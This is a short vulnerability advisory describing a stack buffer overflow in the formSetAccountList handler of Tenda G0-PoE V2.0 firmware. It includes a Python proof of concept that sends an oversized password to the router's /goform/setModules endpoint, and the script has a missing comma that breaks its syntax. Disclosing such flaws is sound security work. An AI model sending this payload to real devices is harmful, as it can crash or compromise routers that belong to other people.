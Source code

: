 # Tenda G0-PoE V2.0 formSetAccountList
### Overview
vendor: Tenda

product: G0-PoE V2.0

version: V16.01.11.6(3657)

type: Stack Overflow
### Vulnerability Description
Tenda G0-PoE V2.0 V16.01.11.6(3657) were discovered to contain a stack overflow in the formSetAccountList function.
### Vulnerability details
In function formSetAccountList line 33、38, it reads in a user-provided parameter `password`, and the variable `String` is passed to the `SimpleEncryptToBase64` function without any length check, which may overflow the stack-based buffer `v18`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G0poe-2-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "userType": "admin"
    "password": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```

